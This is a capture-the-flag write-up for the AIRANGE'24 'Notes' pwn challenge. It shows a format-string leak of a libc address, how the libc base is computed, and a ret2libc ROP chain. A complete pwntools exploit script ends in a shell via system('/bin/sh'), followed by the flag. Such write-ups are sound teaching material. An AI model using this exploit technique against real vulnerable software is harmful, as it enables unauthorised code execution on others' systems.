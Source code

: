```yaml
---
title: AIRANGE'24 - Pwn - Notes
date: '2024-05-10'
tags: ['ctf', 'pwn', 'airange', 'writeup', 'fmt']
draft: false
summary: Given a libc leak, perform a ret2libc attack.
---
```


## Challenge Description

![Screenshot](/static/writeups/airange24/pwn/notes1.png)

## Solution

Files provided to us:

```
Dockerfile
ld-2.35.so
libc.so.6
notes
notes.cpp
```

Checking binary’s mitigations:

![Screenshot](/static/writeups/airange24/pwn/notes2.png)

First thing first, lets see what is the vulnerable part. You can see in the following screenshot that we have FSB:

![Screenshot](/static/writeups/airange24/pwn/notes3.png)

As **PIE** and **NX** is enabled. We have to perform `ret2libc`. Now, open the binary in gdb and let’s see if we could leak an address from libc address range:

```
%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|
```

![Screenshot](/static/writeups/airange24/pwn/notes4.png)

Press `ctrl+C` and run `vmmap` to see range of libc; which in our case is `0x7ffff7b40000` - `0x7ffff7d5a000`:

![Screenshot](/static/writeups/airange24/pwn/notes5.png)

And if you see carefully, a leaked address (`0x7ffff7b69d90`) from this range is present on index `27`:

![Screenshot](/static/writeups/airange24/pwn/notes6.png)


As in this challenge, the **PIE** (Position Independent Executable) and **NX** (No eXecute) are enabled, meaning that each time a binary is executed, it generates a seemingly random address for every instruction in binary code. However, upon closer inspection, these addresses are not truly random.


This lack of randomness stems from a concept known as an offset, which represents the distance between any two functions or the distance from the base of the binary to a specific function. This offset remains consistent. For instance, consider two individuals racing, and the difference between them is consistently 2 meters. So, even though they are constantly moving, if the distance between them remains the same and we know the address of one person, we can calculate the address of the other person.

So, if we have a leaked libc function address and somehow we can calculate its offset from the libc base, we can determine the libc base address and call any function that we desire.

> Base address + Offset = Function address

With knowledge of one address, it becomes feasible to calculate the offset to another function. Consequently, each time the binary is executed, this offset is randomly generated and added to the base address.

In our case, the leaked address was `0x7ffff7b69d90` and base address is `0x7ffff7b40000`. Let’s calculate the offset:

```bash
pwndbg> p/x 0x7ffff7b69d90 - 0x7ffff7b40000
```

![Screenshot](/static/writeups/airange24/pwn/notes7.png)

As now we know offset, we can calculate libc base address at runtime essentially bypassing **PIE** protection. 😉

```bash:how-it-will-be-calculated
libc.address = <%27$p> - <0x29d90>
```

Finding offset:

![Screenshot](/static/writeups/airange24/pwn/notes8.png)

![Screenshot](/static/writeups/airange24/pwn/notes9.png)

Our offset is 268+8 = `276`. Now let's find `ret` and `pop rdi`. 

But why we need them?

**POP_RDI:** gadget is used to pop the next value from the stack into the rdi register. In this context, rdi is typically used to pass the first argument to a function. Since the script (that we want to create) aims to call system("/bin/sh"), it needs to pass the address of the string "/bin/sh" as the first argument to `system()`. Therefore, POP_RDI will be used to load the address of "/bin/sh" into rdi.

**RET:** gadget is used to return control flow to the address stored on the stack. In the ROP chain, after loading the address of "/bin/sh" into rdi using POP_RDI, the next step is to return to some address. In our case it will be used to maintain alignment or adjust the stack before calling `system()`. After RET, the `system()` function from libc will be called, which expects control to be transferred to its entry point with the appropriate arguments in registers.

In short, **POP_RDI** is used to load the address of "/bin/sh" into rdi, and **RET** is used for alignment or adjusting the stack before calling `system()` with the appropriate arguments.

Finding **POP_RDI** and **RET**:
```bash
ROPgadget --binary libc.so.6 > gadget.txt
```

Search for `ret` and `pop rdi` in `gadget.txt`:

![Screenshot](/static/writeups/airange24/pwn/notes10.png)

![Screenshot](/static/writeups/airange24/pwn/notes11.png)

Final payload that I created:

```python:payload.py
#!/usr/bin/env python3
from pwn import *

context.terminal = ["tmux", "splitw", "-h"]

# Helper functions
encode = lambda e: e if type(e) == bytes else str(e).encode()  # Lambda function to encode strings to bytes
hexleak = lambda l: int(l[:-1] if l[-1] == '\n' else l, 16)     # Lambda function to convert hex string to integer

exe = "./notes"
elf = context.binary = ELF(exe)
libc = elf.libc

# Set up the connection (remote or local)
io = remote(sys.argv[1], int(sys.argv[2])) if args.REMOTE else process()

# If GDB flag is enabled, attach to the process for debugging
if args.GDB:
    gdb.attach(io, "b *main")

# ROP gadget setup
rop = ROP(elf)

io.sendlineafter(b"$ ", b"1")
io.sendlineafter(b"note: ", b"|%27$p|")
io.sendlineafter(b"$ ", b"2")
io.sendlineafter(b": ", b"0")

# Receiving leaked address and parsing it
leak = int(io.recvline().split(b"|")[1], 16)
print("leak @ %#x" % leak)


libc.address = leak - 0x29d90   # Calculating the libc base address based on the leaked address
print("base @ %#x" % libc.address)  # Printing the calculated libc base address

# ROP gadget addresses
POP_RDI = libc.address + 0x000000000002a3e5   # Address of POP RDI gadget
RET = libc.address + 0x0000000000029139        # Address of return address

payload = flat(
    cyclic(276),                             # Fill buffer with cyclic pattern (overflow to RIP)
    POP_RDI,                                 # Setting up RDI register for system call
    next(libc.search(b"/bin/sh\x00")),      # Address of "/bin/sh" string in libc
    RET,                                     # Return address
    libc.sym.system                         # Address of system() function in libc
)

io.sendline(b"0")
io.recvuntil(b'$ ')
io.sendline(b"1")

# Sending payload
io.sendline(payload)
io.interactive()
```

Running it against remote:

![Screenshot](/static/writeups/airange24/pwn/notes12.png)

### Flag:

```
AUCSS{1_th0ught_cpp_w4s_s3cur3}
```

I tried to find POP_RDI and RET using `rop.find_gadget()` but I'm not sure why it wasn't working. It might have been a syntax issue on my part. So, I did it manually.
